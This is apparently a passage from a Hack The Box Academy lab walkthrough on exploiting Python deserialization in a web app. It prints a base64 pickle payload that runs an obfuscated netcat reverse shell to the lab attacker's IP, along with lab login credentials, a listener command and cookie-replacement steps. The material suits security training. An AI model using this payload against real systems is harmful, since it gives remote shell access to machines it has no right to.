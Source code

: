 Subsequently, students need to run `exploit.py` to attain the base64-encoded cookie:

Code: shell

```shell
python3 exploit.py
```

```shell
┌─[eu-academy-1]─[10.10.14.107]─[htb-ac413848@htb-avlyau8omi]─[~/htbooks-src]
└──╼ [★]$ python3 exploit.py

gASVQgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCduJydjIC1udiAxMC4xMC4xNC4xMDcgOTAwMSAtZSAvYmluL3MnJ2iUhZRSlC4=
```

Now, students need to navigate to the web root page of the spawned target machine on port 5000 and click on "Log in":

![[HTB Solutions/CWEE/z. images/621e87c38c994688589e9d0c8fa4ad33_MD5.jpg]]

Subsequently, students need to utilize the credentials `franz.mueller:bierislekker` (which were provided in the section "Identifying a Vulnerability" under "Exploiting Python Deserialization") to log in:

![[HTB Solutions/CWEE/z. images/f5b663e3e2dc67e2cd9881559204e5aa_MD5.jpg]]

![[HTB Solutions/CWEE/z. images/f45d86afe57638af616a90e5dd26adad_MD5.jpg]]

Once logged in, students need to hover over "More" and click "Admin Panel":

![[HTB Solutions/CWEE/z. images/96f490ca66b34eafd3d0c9f4a95193e8_MD5.jpg]]

Subsequently, students need to start an `nc` listener using the same port that was specified in `exploit.py` (9001 in here):

Code: shell

```shell
nc -nvlp PWNPO
```

```shell
┌─[eu-academy-1]─[10.10.14.107]─[htb-ac413848@htb-avlyau8omi]─[~/htbooks-src]
└──╼ [★]$ nc -nvlp 9001

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
```

Then, using `cookie-editor` or the Web Developer Tools, students need to replace the cookie value to be the one generated previously by `exploit.py`:

![[HTB Solutions/CWEE/z. images/400a9417926425e2aaeb9bbb4e13d9c6_MD5.jpg]]

After refreshing the page, students will notice that the reverse shell connection has been established successfully in the `nc` listener:
